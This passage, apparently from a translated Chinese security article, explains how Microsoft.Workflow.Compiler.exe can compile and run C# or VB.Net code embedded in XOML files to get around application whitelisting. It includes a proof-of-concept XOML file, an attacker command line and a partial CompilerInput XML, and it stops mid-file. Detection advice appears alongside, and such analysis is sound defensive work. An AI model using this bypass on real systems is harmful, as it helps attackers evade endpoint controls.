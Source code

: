 与PowerShell中的[Add-Type](http://www.exploit-monday.com/2017/07/bypassing-device-guard-with-dotnet-methods.html)以及[msbuild](https://web.archive.org/web/20161212224652/http://subt0x10.blogspot.com/2016/09/bypassing-application-whitelisting.html)类似，程序会调用.NET的内部编译方法来编译并加载XOML文件中内置的C#代码。如果C#编译成功，`csc.exe`会以`Microsoft.Workflow.Compiler.exe`子进程的形式运行。我们还可以在XOML载荷中使用嵌入式VB.Net代码，只需要将序列化`CompilerInput` XML文件`languageToUse`属性中的`CSharp`替换为`VB`或者`VisualBasic`，然后在XOML文件中嵌入VB.Net代码即可。这样处理后，`vbc.exe`将成为`Microsoft.Workflow.Compiler.exe`的子进程。使用VB.Net载荷的`test.xoml` PoC文件如下所示：

```
&lt;SequentialWorkflowActivity x:Class="MyWorkflow" x:Name="MyWorkflow" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow"&gt;
    &lt;CodeActivity x:Name="codeActivity1" /&gt;
    &lt;x:Code&gt;&lt;![CDATA[
    Class Foo : Inherits SequentialWorkflowActivity
        Public Sub New()
            Console.WriteLine("FOOO!!!!")
        End Sub
    End Class
    ]]&gt;&lt;/x:Code&gt;
&lt;/SequentialWorkflowActivity&gt;
```

从技术角度来看，使用assembly编译方法还有另一个方面值得注意，这个过程会编译C#/VB.Net代码，生成一个临时的DLL并快速删除。端点安全产品可以通过检测这些临时性DLL来检测这种滥用行为。

> `Microsoft.Workflow.Compiler.exe`参数可以使用任意文件扩展名。

如果我们想根据命令行字符串来构建检测规则，需要注意程序接受的参数不需要以`.xml`作为文件扩展名。攻击者可以使用任意文件扩展名（如`.txt`）作为参数传递给程序。

> 传入的XOML文件无需以`.xoml`作为扩展名，可以使用文件扩展名。

这种技术需要使用磁盘上的两个文件（`CompilerInput`内容以及`C#/VB.Net`载荷文件）才能达到代码运行效果，但这些文件可以使用任意扩展名，因此我们并不推荐使用`.xoml`文件来构建检测技术。

比如，攻击者可以使用如下命令来运行这个程序：

```
C:WindowsMicrosoft.NETFramework64v4.0.30319Microsoft.Workflow.Compiler.exe test.txt results.blah
```

`test.txt`的内容为：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler"&gt;
  &lt;files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays"&gt;
    &lt;d2p1:string&gt;blah.foo&lt;/d2p1:string&gt;
  &lt;/files&gt;
  &lt;parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler"&gt;
    &lt;assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
    &lt;compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
    &lt;coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"&gt;&lt;/coreAssemblyFileName&gt;
    &lt;embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
    &lt;evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
    &lt;generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"&gt;false&lt;/generateExecutable&gt;
    &lt;generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"&gt;true&lt;/generateInMemory&gt;
    &lt;includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"&gt;false&lt;/includeDebugInformation&gt;
    &lt;linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
    &lt;mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" /&gt;
```